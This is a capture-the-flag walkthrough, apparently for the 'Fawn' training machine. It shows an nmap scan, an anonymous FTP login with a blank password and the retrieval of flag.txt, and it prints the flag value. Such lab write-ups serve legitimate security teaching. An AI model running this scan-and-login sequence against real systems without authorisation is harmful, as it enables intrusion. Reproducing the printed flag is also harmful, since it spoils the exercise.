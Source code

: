 # Fawn Write-Up

Very easy

Tags: 
`External`
`Enumeration`
`FTP`

## Intro

Use FTP to connect with the machine

## Exploit

### 1. Scan the target's port

```
nmap -sV <target IP>
```
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-25 03:09 EDT
Nmap scan report for 10.129.1.14
Host is up (0.20s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.80 seconds

```

### 2. Connect to the target via ftp

Connect to the target
```
ftp <target IP>
```
```
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:kali):
```

### 3. Brute-force credentials

Username: `anonymous` <br>
Password: `<blank>`
```
Name (10.129.1.14:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

### 4. Get flag
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (22.1789 kB/s)
```

Open flag.txt from local directory
```
ls
Desktop  Documents  Downloads  flag.txt  Music  Pictures  Public  Templates  Tools  Videos
```
```
cat flag.txt
035db21c881520061c53e0536e44f815 
```